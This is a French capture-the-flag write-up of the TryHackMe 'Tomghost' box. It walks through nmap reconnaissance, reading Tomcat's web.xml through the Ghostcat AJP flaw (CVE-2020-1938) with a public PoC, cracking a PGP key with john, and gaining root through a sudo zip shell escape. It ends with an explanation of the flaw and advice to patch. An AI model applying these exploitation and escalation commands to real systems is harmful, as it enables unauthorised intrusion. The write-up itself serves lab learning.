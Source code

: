 ```yaml
---
title: "Write-up | Tomghost"
date: 2020-07-08T14:50:53+02:00
draft: false
tags:
  - writeup
  - tryhackme
---
```


Aujourd'hui, je m'attaque à la box tomghost, sur [Try Hack Me](https://tryhackme.com). Le nom en dit long sur cette room :)

## Reconnaissance
Je fais un `nmap` directement avec le flag `--script vuln`, car les tags de la room indiquent un numéro de CVE.
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
53/tcp   open  tcpwrapped
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
8080/tcp open  http       Apache Tomcat 9.0.30
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /examples/: Sample scripts
|_  /docs/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| vulners: 
|   cpe:/a:apache:tomcat:9.0.30: 
|       CVE-2020-1938   7.5     https://vulners.com/cve/CVE-2020-1938
|       CVE-2020-1935   5.8     https://vulners.com/cve/CVE-2020-1935
|       CVE-2019-17569  5.8     https://vulners.com/cve/CVE-2019-17569
|       CVE-2020-1745   5.0     https://vulners.com/cve/CVE-2020-1745
|       CVE-2020-11996  5.0     https://vulners.com/cve/CVE-2020-11996
|_      CVE-2020-9484   4.4     https://vulners.com/cve/CVE-2020-9484
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Comme le nom de la machine laissait imaginer, on va devoir exploiter une vulnérabilité de Apache Tomcat, la CVE-2020-1938, également appelée GhostCat.

## Exploitation

Afin de pouvoir exploiter cette vulnérabilité, le port AJP (8009) doit être ouvert, ce qui est le cas ici.

Il ne semble y avoir aucun _exploit_ sur metasploit permettant d'exploiter cette vulnérabilité. Il va donc falloir en trouver un sur le net. Heureusement, de nombreuses PoC sont disponibles sur GitHub. J'utilise celui de  [00theway](https://github.com/00theway/Ghostcat-CNVD-2020-10487).

Les serveurs Apache Tomcat ont par défaut un fichier `/WEB-INF/web.xml`. Je lance donc l'_exploit_ pour lire ce fichier :
```
$ python3 exploit.py http://10.10.201.10:8080 8009 /WEB-INF/web.xml read
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[edited]
  </description>

</web-app>
```
On retrouve sur cette page des identifiants. Je les teste donc en SSH, et ça marche !

Une fois connecté, je vois qu'il y a 2 fichiers dans le home dir de l'user : `credential.pgp` et `tryhackme.asc`.

* `tryhackme.asc` contient une clé privée PGP.
* `credentials.pgp` est un fichier binaire.

Je les récupère donc sur ma machine pour jouer avec :
```
$ scp skyfuck@10.10.201.10:/home/skyfuck/* Documents/tryhackme/tomghost/
skyfuck@10.10.201.10's password: 
credential.pgp        100%  394     6.8KB/s   00:00    
tryhackme.asc         100% 5144    90.1KB/s   00:00
```

J'essaie d'importer avec `gpg`, mais je n'ai pas le mot de passe. Qui on appelle quand il est question de craquer des clés ? `john` !
```
$ sudo gpg2john tryhackme.asc > hash

File tryhackme.asc

$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
...
Press 'q' or Ctrl-C to abort, almost any other key for status
[edited]        (tryhackme)
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Yes ! Ça fonctionne ! Je peux alors utiliser `gpg` :
```
$ gpg --decrypt credential.pgp 
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
            dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
      « tryhackme <stuxnet@tryhackme.com> »
merlin:[edited]
```

Il y a donc un autre utilisateur sur la machine que `skyfuck`, je n'avais pas pensé à regarder ! Ces identifiants me permettent de me connecter en SSH entant que `merlin`. Je peux alors lire le flag `user.txt` :
```
$ cat user.txt 
THM{[edited]}
```

## Élévation de privilèges

Afin de voir comment je pourrais passer root, j'essaie d'abord `sudo -l` :
```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
Hmm, étrange...
Un petit tour sur [GTFOBins](https://gtfobins.github.io/) pour voir ce qu'il est possible de faire avec `zip` :

> It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

Parfait :)

```
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)

# whoami
root
# cat /root/root.txt
THM{[edited]}
```
:)

## Épilogue : un point sur Apache Tomcat et la vulnérabilité GhostCat

Apache Tomcat est un serveur web qui permet d'exécuter des applications faites en Java (.jsp...).

Dans cette room, j'ai exploité le protocole AJP qui est de base sur le port 8009. AJP (pour Apache JServ Protocol) permet la communication entre un serveur web Apache (qui reçoit les requêtes HTTP) et un serveur Tomcat (qui gère les applications Java). Le serveur Apache traduit les requêtes HTTP en requêtes AJP pour que Tomcat puisse les interpréter.

Le problème ici est que le port sur lequel tourne AJP est visible de l'extérieur. Or, le serveur Tomcat considère toutes les requêtes AJP comme étant légitimes. Dans ces requêtes, il y a un champ URI qui contient une chaine de caractères entrée par l'utilisateur. Les requêtes AJP étant considérées comme sûres par Tomcat, ce champ n'est pas controllé, ce qui permet à un attaquant de lire ou écrire des fichiers déjà présents sur le serveur. C'est ce que j'ai fait ici, en lisant le fichier `/WEB-INF/web.xml`.

Aujourd'hui, cette vulnérabilité est patchée, donc les mises à jour suffisent à éviter ce problème. Cependant, Apache Tomcat a de nombreuses vulnérabilités qui sont découvertes chaque année, et beaucoup d'entre elles sont faciles à exploiter, les _exploits_ étant publics :
```
$ searchsploit tomcat | wc -l
68
```

Morale de l'histoire : faites vos mises à jour et utilisez des pare-feux :)
